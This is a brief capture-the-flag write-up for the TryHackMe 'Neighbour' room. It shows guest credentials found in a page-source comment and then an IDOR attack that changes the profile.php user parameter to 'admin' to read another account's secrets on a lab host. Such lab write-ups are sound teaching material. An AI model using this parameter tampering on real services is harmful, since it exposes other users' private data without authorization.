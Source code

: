 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Neighbour 
# DESCRIPTION       . Check out our new cloud service, Authentication Anywhere. Can you find other user's secrets?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/neighbour
```

- The login page is suggesting that we can use a `guest account` and indicates us to use CTRL + U

- By doing so, we end up in the source code where the following is revealed

```
<!-- use guest:guest credentials until registration is fixed. "admin" user account is off limits!!!!! -->
```

- After logging in as user, we see the URL looking like this

```
http://10.10.206.181/profile.php?user=guest
```

- This is a very basic IDOR vulnerability and the admin flag can be revealed by using the following URL

```
http://10.10.206.181/profile.php?user=admin
```

